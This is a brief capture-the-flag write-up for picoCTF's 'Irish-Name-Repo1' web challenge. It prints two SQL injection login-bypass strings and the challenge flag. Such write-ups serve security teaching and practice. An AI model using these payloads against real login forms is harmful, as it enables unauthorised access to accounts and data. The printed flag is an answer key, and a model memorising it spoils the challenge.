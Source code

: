 # Irish-Name-Repo1

Point: 300

## Category

Web Exploitation

## Question

There is a website running at [https://2019shell1.picoctf.com/problem/37868/](https://2019shell1.picoctf.com/problem/37868/) \(link\) or [http://2019shell1.picoctf.com:37868](http://2019shell1.picoctf.com:37868). Do you think you can log us in? Try to see if you can login!

## Hint

There doesn't seem to be many ways to interact with this, I wonder if the users are kept in a database?

Try to think about how does the website verify your login?

## Solution

This is a SQL injection vul.

```bash
Username:       ' OR 'A' = 'A' -- 
or another one: ' OR 1 --
```

Then click to Login buttom to see the flag

## Flag

picoCTF{s0m3\_SQL\_a57b0b1d}

